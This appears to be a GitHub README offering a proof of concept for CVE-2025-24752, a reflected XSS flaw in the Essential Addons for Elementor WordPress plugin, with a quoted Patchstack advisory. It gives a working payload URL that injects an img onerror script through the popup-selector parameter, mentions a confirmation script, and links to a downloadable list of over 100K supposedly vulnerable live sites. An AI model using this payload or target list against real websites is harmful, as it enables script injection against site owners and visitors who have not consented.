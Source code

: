 Please do not harm sites, FIX it ASAP
targets vulnerable 100K+ probably affecting for XSS https://nt.ls/AkTE9 (can download by one click all vulnerable)

![image](https://github.com/user-attachments/assets/4167280d-787d-45cd-81eb-4a5c25368885)

#### manual POC elementor XSS 2025
 ==> ```https://target.com/?popup-selector=<img_src=x_onerror=alert("chirag")>&eael-lostpassword=1```
![image](https://github.com/user-attachments/assets/50d75f05-1392-4acf-9889-525e54ca5128)


Note: My script works slow, but it can 1000% confirm XSS bug unlike nuclei or httpx. I tried all the things, version below 6.0.15 are affected.

#### Information & reference 
https://patchstack.com/articles/reflected-xss-patched-in-essential-addons-for-elementor-affecting-2-million-sites/
The Essential Addons for Elementor plugin suffered from a reflected cross-site scripting (XSS) vulnerability. The vulnerability occurred due to insufficient validation and sanitizing of the popup-selector query argument, allowing for a malicious value to be reflected back at the user. The vulnerability is fixed in version 6.0.15 and has been tracked with CVE-2025-24752.
